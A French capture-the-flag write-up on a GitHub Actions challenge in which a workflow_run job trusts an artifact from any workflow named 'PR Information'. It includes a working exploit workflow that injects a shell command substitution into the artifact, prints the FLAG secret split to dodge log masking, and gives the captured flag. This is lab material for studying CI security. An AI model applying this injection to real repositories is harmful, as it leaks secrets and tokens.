

# D-8 GitHub Workflows - Iran

## Intro

Pour cette track, un repo Github read-only avec des [Github Actions workflows](https://docs.github.com/en/actions).
Chaque workflow constitue un des challenges de la track et ont tous comme but d'extraire le flag des Secrets du workflow et suit généralement l'ordre suivant:

1. Trouver comment activer le workflow
2. Trouver la faille dans le worflow
3. Executer l'exploit.

Note: Github cache les secrets et certaines transformations connue (ex. hex, base64) des logs par défault.

# Challenge

Le challenge de la track D8:

```yaml
name: Iran

on:
  workflow_run:
    workflows: ["PR Information"]
    types:
      - completed

permissions: 
  pull-requests: read
  contents: read
  actions: read

jobs:
  tehran:
    if: github.event.workflow_run.conclusion == 'success'
    timeout-minutes: 5
    runs-on: ubuntu-latest
    env:
      GH_TOKEN: ${{ secrets.GITHUB_TOKEN }}
      FLAG: ${{ secrets.FLAG_IRAN }}
    steps:
      - name: Download PR details artifact
        uses: actions/download-artifact@v4
        with:
          name: pr-details
          github-token: ${{ secrets.GITHUB_TOKEN }}
          run-id: ${{ github.event.workflow_run.id }}
      - name: Parse artifact with awk
        id: parser
        run: |
          additions=$(awk -F '"' '/Additions/ {print $2}' pr_details.md)
          echo "additions=$additions" >> "$GITHUB_OUTPUT"
      - run: |
          echo "Number of additions: ${{ steps.parser.outputs.additions }}"

```

Workflow secondaire:

```yaml
name: PR Information
on:
  pull_request_target:
    types:
      - opened
      - edited
      - synchronize

jobs:
  build:
    timeout-minutes: 5
    runs-on: ubuntu-latest
    permissions:
      contents: read
      actions: write
    env:
      GH_TOKEN: ${{ secrets.GITHUB_TOKEN }}
    steps:
      - uses: actions/checkout@v4
      - name: Generate PR details
        id: pr_details
        run: |
          echo " \
          ### PR Details \
          * **Author**: @${{ github.event.pull_request.user.login }} \
          * **Commits**: ${{ github.event.pull_request.commits }} \
          * **Changes**: ${{ github.event.pull_request.changed_files }} files \
          * **Additions**: "${{ github.event.pull_request.additions }}" \
          * **Deletions**: "${{ github.event.pull_request.deletions }}" \
          " > pr_details.md
      - name: Upload PR details as artifact
        uses: actions/upload-artifact@v4
        with:
          name: pr-details
          path: pr_details.md

  comment:
    timeout-minutes: 5
    needs: build
    runs-on: ubuntu-latest
    permissions:
      pull-requests: write
      actions: read
      contents: read
    steps:
      - uses: actions/checkout@v4
      - name: Download PR details artifact
        uses: actions/download-artifact@v4
        with:
          name: pr-details
      - name: Comment on PR
        env:
          GH_TOKEN: ${{ secrets.GITHUB_TOKEN }}
        run: |
          gh pr comment ${{ github.event.pull_request.number }} --body-file pr_details.md

```


### Trouver comment activer le workflow

Ce workflow est dépendant d'un autre workflow ayant pour nom "PR Information".


Le premier workflow lit un fichier créer par "PR Information" et affiche l'information dans la console.

### Trouver la faille dans le worflow

Puisque le workflow dépend seulement d'un workflow ayant pour nom "PR Information". Rien n'empêche de créer notre propre workflow et d'écrire ce que l'on veut dans l'archive. 

### Exploit

En activant les github actions dans le fork et en créant un nouveau workflow qui s'execute dans les PR, on peut forcer le premier workflow à s'executer. 

```yaml
name: PR Information

on: [pull_request]

jobs:
  job:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4
      - name: Generate PR details
        id: pr_details
        run: |
          echo "Additions: \"\$(echo \${FLAG:0:8}--\${FLAG:8} )\"" > pr_details.md
      - name: Upload PR details as artifact
        uses: actions/upload-artifact@v4
        with:
          name: pr-details
          path: pr_details.md
```



---
## Flag:

`flag-iran-e8aad09cfa0a`
